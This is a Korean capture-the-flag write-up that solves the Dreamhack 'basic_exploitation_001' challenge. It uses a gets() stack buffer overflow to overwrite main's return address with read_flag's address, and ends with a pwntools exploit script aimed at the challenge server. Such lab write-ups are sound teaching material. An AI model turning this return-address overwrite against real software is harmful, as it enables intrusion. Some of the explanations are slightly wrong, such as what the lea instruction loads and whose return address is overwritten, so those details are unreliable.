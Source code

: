 # 목차
1. 문제 설명

    1.1. Description

    1.2. Environment

2. 문제 파일 분석

    2.1. 코드 분석

    2.2. 실행 파일 분석

3. 문제 풀이 코드

## 1. 문제 설명

### 1.1. Description

이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.

프로그램의 취약점을 찾고 익스플로잇해 "flag" 파일을 읽으세요.

"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.

플래그의 형식은 DH{...} 입니다.

### 1.2. Environment

Ubuntu 16.04

Arch:     i386-32-little

RELRO:    No RELRO

Stack:    No canary found

NX:       NX enabled

PIE:      No PIE (0x8048000)

## 2. 문제 파일 분석

### 2.1. 코드 분석

`cat basic_exploitation_001.c`를 통해 코드를 확인
```
// basic_exploitation_001.c //

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```
- 주요 기능
    - `main`함수가 실행
    - 스택 메모리에 `0x80(128)byte`의 공간을 부여
    - `gets(buf)`를 통해 입력을 받음

    - `read_flag`함수가 실행되면 `/flag`파일의 내용을 출력

- 주의
    - `gets`함수가 버퍼 크기에 대한 검증이 실행하지 않음
    - `gets`함수의 버퍼를 다 채울 경우 `null`이 들어갈 수 없어 오류 발생

위의 과정을 통해 **stack-bof**를 발생시킬 수 있음을 확인

즉, ASLR 보호 기법이 없는 경우 `gets`함수의 복귀 주소가 저장되어있는 `ret`에 `read_flag`함수의 주소를 넣어 **ret overwrite**이 발생 가능

### 2.2. 실행 파일 분석

`gdb ./basic_exploitation_001`를 통해 GNU 디버거를 실행

`disass main`를 통해 `main`함수의 어셈블리 확인
```
Dump of assembler code for function main:
   0x080485cc <+0>:     push   ebp
   0x080485cd <+1>:     mov    ebp,esp
   0x080485cf <+3>:     add    esp,0xffffff80
   0x080485d2 <+6>:     call   0x8048572 <initialize>
   0x080485d7 <+11>:    lea    eax,[ebp-0x80]
   0x080485da <+14>:    push   eax
   0x080485db <+15>:    call   0x80483d0 <gets@plt>
=> 0x080485e0 <+20>:    add    esp,0x4
   0x080485e3 <+23>:    mov    eax,0x0
   0x080485e8 <+28>:    leave
   0x080485e9 <+29>:    ret
```
`0x080485d7 <+11>:    lea    eax,[ebp-0x80]`: gets 함수의 시작주소를 저장

`0x080485db <+15>:    call   0x80483d0 <gets@plt>`: `0x80483d0` 주소에 저장된 `gets`함수를 실행

스택에 쌓인 모습
```
높은 메모리 주소
+-----------------+ <-- esp (Stack Pointer: 스택 포인터)
|       ...       |
+-----------------+
|       ret       | <-- gets 함수 호출 후 반환될 주소
|  (Return addr)  |
+-----------------+
|       sfp       | <-- ebp (베이스 포인터)
|   (Saved EBP)   | <-- 이전 ebp의 값을 가짐
+-----------------+
|    (128 byte)   |
|       buf       |
+-----------------+ <-- buf 배열의 시작 주소 (ebp - 0x80)
낮은 메모리 주소
```
`"x/i read_flag" or "disass read_flag"`등을 입력

`0x80485b9 <read_flag>:       push   ebp`

`ret`에 들어갈 `read_flag`함수의 주소 확인

## 3. 문제 풀이 코드

```
from pwn import *

payload = b'\x90'*128 + b'\x90'*4 + b'\xb9\x85\x04\x08' #buf + sfp + read_flag()

r = remote('host3.dreamhack.games', 12515)

r.send(payload)

r.interactive()
```
`\x90*128`: 버퍼에 아무 문자로 다 채움

`\x90*4`: sfp에 아무 문자로 다 채움

*32bit 환경에서는 sfp가 4byte의 크기*

*64bit 환경에서는 sfp가 8byte의 크기*

`\xb9\x85\x04\x08`: `ret`에 들어갈 `read_flag`함수의 주소를 리틀엔디안 방식으로 입력